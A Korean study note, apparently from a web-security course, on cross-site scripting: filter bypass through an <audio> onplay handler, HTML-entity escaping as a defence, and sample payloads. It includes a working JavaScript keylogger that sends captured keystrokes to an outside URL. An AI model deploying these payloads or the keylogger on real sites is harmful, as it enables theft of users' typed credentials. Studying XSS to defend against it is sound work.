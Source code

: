 예를들어   
\<audio> 태그.  
\<audio src="인터넷에 있는 아무 태그" onplay="(삽입할스크립트)" outoplay>

이런 식으로 집요하게 우회를 하려면 우회의 여지가 있다.


# XSS 대응 방안

SQLi 처럼 근본적인 방어 방법이 있음.   
-> HTML entity
```
<  →  &lt;   
>  →  &gt;
```

브라우저가 &lt, &gt를 < > 꺽쇄 표시로 전환해줌.

모든 특수문자를 치환해주면 됨.

그럼 무조건 막을 수 있는 거 아니냐?

개발자가 모든 것을 다 치환할 수는 없음.

XSS는 공격 포인트가 너무 많아서 놓치는 경우가 많음.

```
<script>
    여기에 넣는 방식의 XSS는 꺽쇄를 넣을 필요가 없음
</script>
```

# XSS 7

아이디    
normalticXSS\<scrip>alert(1)\</script>



keylogger 삽입

normalxss\<script src="http://normalxss" >

-- XSS Keylogger (예시)
```
var keys = "";
var hackUrl = 'http://normaltic.com/keylogger.php?c='

document.onkeypress = function(e) {
    get = window.event?event:e;
  key = get.keyCode?get.keyCode:get.charCode;
  key = String.fromCharCode(key);
  keys+=key;
}

window.setInterval(function(){
if(keys != '') {
  new Image().src = hackUrl + keys;
  keys = '';
}
}, 200);
```
